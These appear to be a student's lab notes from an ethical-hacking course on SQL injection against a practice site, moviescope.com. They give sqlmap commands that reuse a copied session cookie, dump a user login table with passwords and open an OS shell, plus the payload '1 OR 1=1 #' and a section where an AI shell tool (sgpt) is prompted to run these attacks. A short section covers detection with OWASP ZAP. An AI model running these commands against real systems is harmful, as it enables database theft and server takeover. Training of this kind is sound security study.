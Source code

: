  2025-08-06 21:46

Status:

Tags:

# SQL injection
Structured Query Language (SQL) is a textual language used by a database server. SQL commands used to perform operations on the database include ``INSERT, SELECT, UPDATE, and DELETE``. These commands are used to manipulate data in the database server.

SQL injection is a technique used to take advantage of un-sanitized input vulnerabilities to pass SQL commands through a web application for execution by a backend database
-  SQL injection is a basic attack used to either gain unauthorized access to a database or retrieve information directly from the database 
- It is a flaw in web applications and not a database or web server issue 
- [ ] do theory 
# Lab 1: Perform SQL Injection Attacks
## Task 1: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

-  open parrot 
1. visit ``http://www.moviescope.com`` 
	- login as ``sam:test``
2. click view profile 
	- inspect the page -> console 
	- type ``document.cookie  `` 
	- copy cookie 
3. run SQLmap
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="A[cookie value that you copied in Step#7]" --dbs ``
	- type y for **Do you want to skip test payloads**
4. you need to choose a database and use sqlmap to retrieve the tables in the database
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope --tables``
5.  you need to retrieve the table content of the column **User_Login**.
	- ``sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope -T User_Login --dump ``
	- this will give you users list and their passwords 
6. to get shell 
		- `` sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell ``  type y
	- to get host info 
		- ``hostname ``
	- to view a list of tasks that are currently running on the target system.
		- ``TASKLIST ``
	- to view what else command you perform 
		- ``help ``

# Lab 2: Detect SQL Injection Vulnerabilities using Various SQL Injection Detection Tools

## Task 1: Detect SQL Injection Vulnerabilities using OWASP ZAP

- open windows server 2019 and search zap 
1. start **OWASP ZA**
2. select **Automated Scan**
3. enter http://www.moviescope.com
4. under alert see SQL injection 
5. and MS SQL 
	- done  


# Lab 3: Perform SQL Injection using AI
1. `` **sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the DBMS databases"** ``
2. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the tables pertaining to moviescope database"``
3. ``sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and retrieve User_Login table contents from moviescope database"```
## Exploit the web application (page_id)
1. nmap -sV --script=http-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap. 
3. Now open the burp and check the input parameters and intercept on then type some as`` “1 OR ANY TEXT”`` you get some value on burp copy that and create the txt file.(1 OR 1=1 #)
4.  ``sqlmap -r <txt file from burpsuite> --dbs`` 
5.    `` sqlmap -r <txt file from burpsuite> -D <database name> --tables``
6. ``sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns``
7. ``sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all ``
8. ``then login and do the url parameter change page_id=1 to page_id=84 ``

- [ ]  make notes for using AI sql  
      
- [ ]  perform sql injection 
- [ ] 16
- [ ] 13
### References
